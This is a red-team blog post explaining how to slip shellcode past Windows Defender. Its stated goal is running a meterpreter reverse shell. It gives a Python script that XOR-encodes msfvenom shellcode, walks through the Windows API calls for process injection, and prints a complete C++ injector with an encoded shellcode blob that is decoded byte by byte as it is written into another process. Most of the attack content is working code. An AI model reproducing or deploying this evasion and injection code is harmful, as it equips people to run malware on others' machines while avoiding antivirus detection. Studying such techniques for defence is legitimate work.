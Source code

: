 ```yaml
---
layout: post
title: "How to Bypass Windows Defender"
featured-img: Bypass_Windows_Defender\background.jpg
categories: [cpp, shellcode, redteam, Windows Defender]
---
```


Hey yo I am back with a new blog post. In this post I am going to talk how to bypass the windows defender to run your meterpreter reverse shell.


# SUMMARY

I am going to use the various blog post technique [HERE](https://xret2pwn.github.io/process-inection/) but i will one/two thing(s) which is i will xor my shell code and i will xor again while writing the shellcode into the memory.



# SHELLCODE

I'm created a shellcode through msfvenom that's popup a message box. After creating the shellcode i will xor it.  
The following script is a python to encode my shellcode.

```py
raw_shellcode = "!Replace me with your shellcode"
enc_shellcode = []
print ("[+] Shellcode is encoding")
for opcode in raw_shellcode:
        enc_opcode = (ord(opcode) ^ 0x41)
        enc_shellcode.append(enc_opcode)


print ("========================Shellcode========================\n\n")
print ("".join(["\\x{0}".format(hex(abs(i)).replace("0x", "")) for i in enc_shellcode]))
print ("\n\n========================Shellcode========================")

```

![screenshot_1](/assets/img/posts/Bypass_Windows_Defender/xor_python_script.png)

So now i will generate my encoded shellcode  

![screenshot_2](/assets/img/posts/Bypass_Windows_Defender/encoded_shellcode.png)


# WINAPIs

Our shellcode is ready now so let's create our process injection binary.  
But firstly i will describe some winapis we will need it.  


## OpenProcess

```cpp
HANDLE OpenProcess(
  DWORD dwDesiredAccess,
  BOOL  bInheritHandle,
  DWORD dwProcessId
);
```
I am going to use **OpenProcess** to open a process by giving it the PID of that process. because the main idea of process injection is a create a new allocation space for the shellcode in a local process so before creating a new allocation into the memory you need to open this process first make sense right?  
You need to close the opened handle through **CloseHandle()**

## VirtualAllocEx

```cpp
LPVOID VirtualAllocEx(
  HANDLE hProcess,
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```
I am going to use **VirtualAllocEx** to allocate a new memory space for my shellcode in anther process.  

Why i used **VirtualAllocEx** not **VirtualAlloc**?  
Because I need to allocate memory space in another process address space, catch it!  

Basically you can use **VirtualAlloc** for your current process but **VirtualAllocEx** for another local process.  


## WriteProcessMemory

```cpp
BOOL WriteProcessMemory(
  HANDLE  hProcess,
  LPVOID  lpBaseAddress,
  LPCVOID lpBuffer,
  SIZE_T  nSize,
  SIZE_T  *lpNumberOfBytesWritten
);
```

I am going to use **WriteProcessMemory** to write the shellcode in new allocation which is I created in another process through **VirtualAllocEx**  


## VirtualProtectEx

```cpp
BOOL VirtualProtectEx(
  HANDLE hProcess,
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flNewProtect,
  PDWORD lpflOldProtect
);
```

I am going to use **VirtualProtectEx** to change the protection permission 

## CreateRemoteThread 

```cpp
HANDLE CreateRemoteThread(
  HANDLE                 hProcess,
  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  SIZE_T                 dwStackSize,
  LPTHREAD_START_ROUTINE lpStartAddress,
  LPVOID                 lpParameter,
  DWORD                  dwCreationFlags,
  LPDWORD                lpThreadId
);
```

I am going to use **CreateRemoteThread** to create a remote thread object that is connecting it to process and making it runnable.  

What is the difference between **CreateThread** and **CreateRemoteThread**?  

CreateThread is only allows you to create a thread for the current process.  

CreateRemoteThread is allows you to create a thread for anther local process.


# PWN

After discussing some WINAPIs we will need it to create our process injection binary that's bypass the windows defender let's start with creating our CPP.  

There is just one step I would like to discuss it before writing the code which is i will decode the shellcode opcode by opcode.   

```cpp
#include <stdio.h>
#include <Windows.h>

int main(int argc, char* argv[])
{
    unsigned char shellcode[] = "\x98\xaa\xda\x98\x35\x65\xb5\x70\x93\xf3\x36\x70\x88\x25\xca\x30\x71\xca\x37\x4d\xca\x37\x5d\xca\x7\x49\xca\x3f\x61\xca\x77\x79\xe\x59\x34\xb2\x18\x40\x90\xbe\xa0\x21\xca\x2d\x65\x65\xca\x4\x7d\xca\x15\x69\x39\x40\xab\xca\xb\x59\xca\x1b\x61\x40\xaa\xa2\x75\x8\xca\x75\xca\x40\xaf\x70\xbe\x70\x81\xbd\xed\xc5\x81\x35\x46\x80\x8e\x4c\x40\x86\xaa\xb5\x7a\x3d\x65\x69\x34\xa0\xca\x1b\x65\x40\xaa\x27\xca\x4d\xa\xca\x1b\x5d\x40\xaa\xca\x45\xca\x40\xa9\xc8\x5\x65\x5d\x20\x82\xf3\x49\x68\x95\xc8\xa4\xc8\x83\x29\xcf\xf\x4f\xad\x13\xa9\xde\xbe\xbe\xbe\xc8\x4\x45\xfa\x3f\x99\xa3\x32\xc6\x5d\x65\x13\xa9\xcf\xbe\xbe\xbe\xc8\x4\x49\x29\x2d\x2d\x61\x0\x29\x72\x73\x6f\x25\x29\x34\x32\x24\x33\x71\x9a\xc9\x1d\x65\x4b\xc8\xa7\x17\xbe\x14\x45\xc8\x83\x11\xfa\xe9\xe3\xc\xfd\xc6\x5d\x65\x13\xa9\x1e\xbe\xbe\xbe\x29\x2e\x39\x19\x61\x29\x20\x26\x24\x3\x29\xc\x24\x32\x32\x70\x9a\xc9\x1d\x65\x4b\xc8\xa2\x29\x31\x36\x2f\x19\x29\x13\x24\x35\x73\x70\x88\xc9\xd\x65\x46\xc8\xa0\x70\x93\x13\x12\x10\x13\xbe\x91\x70\x81\x11\xbe\x14\x49";

    HANDLE processHandle;
    HANDLE remoteThread;
    PVOID remoteBuffer;
    DWORD oldPerms;
    DWORD PID = 16772;
    printf("Injecting to PID: %i", PID);
    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READ);

    int i;
    int n = 0;
    for (i = 0; i <= sizeof(shellcode); i++) {
        char dec_opcode = shellcode[i] ^ 0x41;
        if (WriteProcessMemory(processHandle, (char*)remoteBuffer + n, &dec_opcode, 1, NULL)) {
            n++;

        }
    }
    VirtualProtectEx(processHandle, (LPVOID)sizeof(processHandle), sizeof(shellcode), PAGE_READONLY, &oldPerms);
    remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    CloseHandle(processHandle);

    return 0;
}
```

![screenshot_3](/assets/img/posts/Bypass_Windows_Defender/Final_code.png)


In the for loop I decoded the shellcode with writing the opcode into the memory immediately.  
So let's compile it and see what will happen?  


![screenshot_4](/assets/img/posts/Bypass_Windows_Defender/Windows_Defender_Bypassed.png)

Yup we have been bypassed the windows defender.🔥🔥🔥

_____________________________________________  

  
   


|   Authors    | Twitter | LinkedIn |
| ----------- | ----------- |----------- |
| Hazem Hisham (Ret2pwn) | [@Twitter](https://twitter.com/RET2_pwn) |[@LinkedIn](https://www.linkedin.com/in/hazem-hesham/) |